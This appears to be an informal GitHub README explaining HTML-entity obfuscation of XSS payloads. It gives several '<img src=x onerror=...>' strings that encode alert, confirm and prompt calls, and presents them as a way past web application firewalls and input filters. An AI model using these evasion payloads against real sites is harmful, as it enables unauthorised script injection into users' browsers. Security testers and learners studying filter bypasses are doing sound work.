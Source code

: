 # Intro
## What is Obfuscation
Obfuscation is the practice of intentionally making code or data more difficult to understand or read. thats it

# Whats the Point of obfuscating alert event
First we know what is alert to get to know what we are dealing with
In web development, `alert` is a function in JavaScript that is used to display a dialog box with a specified message and an OK button.
In your web application, let's say you have a login feature. After a user successfully signs in, you might want to provide a welcoming message to greet them. One simple way to achieve this is by using the `alert` function in JavaScript. For example:

```javascript
// Assuming the user successfully signed in
var username = "user123"; // Replace with the actual username
var welcomeMessage = "You have successfully signed in, welcome " + username + "!";
alert(welcomeMessage);
```
In this scenario, after a successful sign-in, the alert function is used to display a personalized welcome message, incorporating the user's username. The message might say something like "You have successfully signed in, welcome user123!".

Sorry for the long example (: but lets dig deep 

# Obfuscation 
using some sources i've found some interesting things like this 
```html
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```
Have you ever seen something like this before? Probably yes, but it becomes incredibly helpful when the alert function is blocked by a WAF or filtration mechs.

so i will provide some script as example if you want to use them, it will be prompt and alert and confirm functions.

# here
```
<img src=x onerror=&#x63;&#x6F;&#x6E;&#x66;&#x69;&#x72;&#x6D;('XSS')>
```
for confirm
```
<img src=x onerror=&#x70;&#x72;&#x6F;&#x6D;&#x70;&#x74;('XSS')>
```
for prompt
```
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;('XSS')>
```
and this is for alert


## Thanks for reading 
why did i write it? because i was bored at 4 AM
